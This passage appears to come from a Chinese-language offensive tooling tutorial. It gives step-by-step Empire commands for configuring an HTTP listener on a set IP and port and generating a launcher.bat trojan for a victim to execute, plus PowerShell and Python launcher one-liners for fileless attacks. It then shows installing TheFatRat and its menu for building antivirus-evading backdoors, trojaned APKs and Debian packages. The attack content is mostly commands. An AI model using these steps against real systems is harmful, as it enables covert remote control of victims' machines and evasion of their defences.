 ### 5 Empire

```shell
# 配置监听器
(Empire) > uselistener <Tab><Tab>
dbx    http    http_com    http_foreign    http_hop
http_mapi    meterpreter    onedrive    redirector
(Empire: listeners) > uselistener http
(Empire: listeners/http) > info
(Empire: listeners/http) > set Host http://192.168.205.111
(Empire: listeners/http) > set Port 25675
(Empire: listeners/http) > execute
# 生成木马
(Empire: listeners/http) > back
(Empire) > usestager <Tab><Tab>
(Empire) > usestager windows/launcher_bat http
(Empire: stager/windows/launcher_bat) > execute
## 运行完毕后生成bat文件，受害者获得该文件并执行
Invoke-Item C:\users\DELL\launcher.bat
## 除了生成bat文件以外，还可以生成基于脚本语言的一句话，用于无文件攻击
(Empire: listeners) > launcher powershell http
(Empire: listeners) > launcher python http

```

### 6 theFatRAT

```shell
git clone https://github.com/Screetsec/TheFatRat
./update && chmod + x setup.sh && ./setup.sh

proxychains ./fatrat

```

```shell
	[01]  Create Backdoor with msfvenom
	[02]*  Create Fud 100% Backdoor with Fudwin 1.0
	[03]  Create Fud Backdoor with Avoid v1.2  
	[04]  Create Fud Backdoor with backdoor-factory [embed] 
	[05]  Backdooring Original apk [Instagram, Line,etc] 
	[06]*  Create Fud Backdoor 1000% with PwnWinds [Excelent] 
	[07]  Create Backdoor For Office with Microsploit 
	[08]  Trojan Debian Package For Remote Acces [Trodebi] 
	[09]  Load/Create auto listeners  
	[10]  Jump to msfconsole  
	[11]  Searchsploit  
	[12]  File Pumper [Increase Your Files Size] 
	[13]  Configure Default Lhost & Lport 
	[14]  Cleanup  
	[15]  Help  
	[16]  Credits  
	[17]  Exit  


```
